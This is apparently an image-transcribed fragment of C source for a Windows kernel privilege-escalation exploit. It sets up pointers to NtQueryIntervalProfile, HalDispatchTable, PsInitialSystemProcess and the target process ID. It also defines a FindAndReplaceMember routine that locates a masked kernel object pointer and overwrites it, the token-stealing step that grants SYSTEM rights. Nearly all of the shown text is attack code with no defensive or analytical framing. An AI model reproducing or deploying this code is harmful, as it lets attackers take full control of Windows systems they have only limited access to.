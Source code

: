 enum { SystemModuleInformation = 11 };
enum { ProfileTotalIssues = 2 };

typedef struct _RTL_PROCESS_MODULE_INFORMATION {
    HANDLE Section;
    PVOID MappedBase;
    PVOID ImageBase;
    ULONG ImageSize;
    ULONG Flags;
    USHORT LoadOrderIndex;
    USHORT InitOrderIndex;
    USHORT LoadCount;
    USHORT OffsetToFileName;
    UCHAR  FullPathName[256];
} RTL_PROCESS_MODULE_INFORMATION, *PRTL_PROCESS_MODULE_INFORMATION;

typedef struct _RTL_PROCESS_MODULES {
    ULONG NumberOfModules;
    RTL_PROCESS_MODULE_INFORMATION Modules[1];
} RTL_PROCESS_MODULES, *PRTL_PROCESS_MODULES;

FARPROC NtQuerySystemInformation;
FARPROC NtQueryIntervalProfile;
FARPROC PsReferencePrimaryToken;
FARPROC PsLookupProcessByProcessId;
PULONG  HalDispatchTable;
ULONG   HalQuerySystemInformation;
PULONG  TargetPid;
PVOID  *PsInitialSystemProcess;

// Search the specified data structure for a member with CurrentValue.
BOOL FindAndReplaceMember(PDWORD Structure,
                          DWORD CurrentValue,
                          DWORD NewValue,
                          DWORD MaxSize)
{
    DWORD i, Mask;

    // Microsoft QWORD aligns object pointers, then uses the lower three
    // bits for quick reference counting.
    Mask = ~7;

    // Mask out the reference count.
    CurrentValue &amp;= Mask;

    // Scan the structure for any occurrence of CurrentValue.
    for (i = 0; i &lt; MaxSize; i++) {
        if ((Structure[i] &amp; Mask) == CurrentValue) {
            // And finally, replace it with NewValue.
            Structure[i] = NewValue;
            return TRUE;
        }
    }

    // Member not found.
    return FALSE;
}
